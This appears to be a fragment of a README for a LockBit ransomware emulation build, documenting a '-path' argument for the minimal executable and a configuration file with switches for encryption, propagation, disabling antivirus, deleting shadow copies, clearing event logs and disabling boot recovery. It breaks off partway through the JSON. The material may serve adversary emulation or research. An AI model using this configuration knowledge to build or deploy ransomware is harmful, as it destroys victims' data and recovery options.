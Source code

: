 When executing the minimal version of LockBit, you can provide command-line arguments to adjust its behavior
and override the options specified in the configuration file.

```text
lockbit_minimal.exe [-path root_dir] 
```

- `-path`: takes a directory path to restrict LockBit encryption to only that directory.
If not specified, LockBit will enumerate and encrypt files starting at each drive

## Configuration

Configuration JSON files are located in the `config` folder and set the default behavior for the main and minimal executables.
Some options are overridable by command-line arguments. `config\config.json` contains the production configuration
for the main and minimal executables, and `config\unit_test_config.json` contains the configuration used in certain unit tests.

To use a different configuration file when building the executable, set the `CONFIG_PATH` variable in
`src\CMakeLists.txt` accordingly for the `main-lib` target compile definitions.
Alternatively, for testing purposes, you can adjust the pre-provided `config\test_config.json` configuration file
and use that when building LockBit components by setting the `LOCKBIT_TEST_CONFIG` cmake option to `ON`.

Below is an example JSON configuration, with explanations for each field:

```json
{
    "enable_enc": false,
    "enable_enum": true,
    "enable_prop": true,
    "enable_self_del": true,
    "disable_boot_recovery": true,
    "disable_av": true,
    "empty_recycle": true,
    "check_ui_lang": true,
    "check_mutex": true,
    "terminate_processes": true,
    "terminate_services": true,
    "change_wallpaper": true,
    "change_icon": true,
    "clear_evt_log": true,
    "delete_shadow": true,
    "excluded_filenames": [
        "autorun.inf", 
        "boot.ini", 
        "bootfont.bin", 
        "bootsect.bak", 
        "desktop.ini", 
        "iconcache.db", 
        "ntldr", 
        "ntuser.dat", 
        "ntuser.dat.log", 
        "ntuser.ini", 
        "thumbs.db", 
        "GDIPFONTCACHEV1.DAT", 
        "d3d9caps.dat",
        "lb.log"
    ],
    "excluded_dirs": [
        "$recycle.bin",
        "config.msi",
```